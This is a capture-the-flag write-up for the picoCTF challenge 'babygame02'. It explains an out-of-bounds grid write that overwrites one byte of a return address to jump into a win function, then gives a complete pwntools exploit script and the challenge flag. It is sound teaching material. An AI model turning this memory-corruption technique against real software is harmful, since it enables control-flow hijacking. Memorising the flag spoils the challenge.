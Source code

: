 # babygame02

## Challenge

The challenge is a game with grid that the player can move around in.

The initial state of the game is as follows:

```
Player position: 4 4
End tile position: 29 89
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
....@.....................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................X
```

We can move around by sending 'w', 'a', 's', and 'd'.

If we reach the 'X' in the bottom right, the game prints "You win!" and exits.

The challenge is pretty much the same as babygame01, except there is no "Player has flag" variable.

## Solution

The same secret commands from babygame01 are present here.
They can also be found by reverse engineering the game binary.

'l' will change our player character to the next character we send.
For example, sending 'l' followed by 'A' will cause our character to appear as an 'A'.

'p' will automatically move our character to the 'X' in the bottom right of the grid, ending the game.

The `win` function will print the flag.
However, unlike the previous challenge, there is no variable we can set to reach this function.

The same vulnerability from babygame01 exists in this challenge.
We can move out of bounds of the grid and our player character will be written to our location.

The `win` function address and the return address from `move_player` into `main` only differ by the least significant byte.
If we can overwrite this byte to the correct value, we can jump into the `win` function instead of returning, which will print the flag.

Moving horizontally allows us to change our position by 1 byte, however, the player struct lies between the grid and the return address we want to overwrite.
Instead, we can setup our position in-bounds such that, when we move vertically once, we land exactly on the least significant byte of the return address.

Before we move out of bounds, our player character has to be set to the byte we want to write into the return address.
For this, we want to write the least significant byte of our jump target.
Our target is a couple instructions into the `win` function.
We want to avoid the first `push ebp` to maintain stack alignment.

If everything is setup correctly, after we move out of bounds we will return into the `win` function, which will print the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host saturn.picoctf.net --port 49253 game
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('game')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 49253)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

x = 4
y = 4

io.send(b'l' + chr(0x5d + 3).encode())

while y > 0:
    io.send(b'w')
    y -= 1

while x < 51:
    io.send(b'd')
    x += 1

io.sendline(b'w')

io.interactive()
```

## Flag

```
picoCTF{gamer_jump1ng_4r0unD_7a26c512}
```
